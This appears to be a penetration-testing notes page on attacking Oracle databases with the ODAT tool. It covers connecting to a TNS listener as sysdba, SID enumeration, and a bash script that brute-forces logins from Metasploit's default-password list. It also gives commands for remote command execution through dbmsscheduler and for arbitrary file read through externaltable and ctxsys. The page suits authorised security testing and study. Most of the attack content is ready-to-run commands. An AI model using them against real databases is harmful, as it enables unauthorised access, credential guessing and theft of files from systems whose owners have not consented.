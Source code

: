 # Oracle Databases

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.    

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to odat when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## SID Enumeration

The SID for Oracle identifies the database instance running.  We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available.

```
./odat.py sidguesser  -s 10.10.10.82
```

## Username Brute-force

```
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/lib/oracle/12.2/client64/bin/sqlplus -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

We can use dbmsscheduler in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to a single case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password--sysdba
```

## TNS Poisoning

## CVE-2012-3137

[Alternative Script \(untested\)](https://github.com/r1-/cve-2012-3137)

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)

[http://www.ordba.net/Articles/HardeningOracleDB.htm](http://www.ordba.net/Articles/HardeningOracleDB.htm)

[http://ora-600.pl/art/privilege\_escalation\_2.pdf](http://ora-600.pl/art/privilege_escalation_2.pdf)

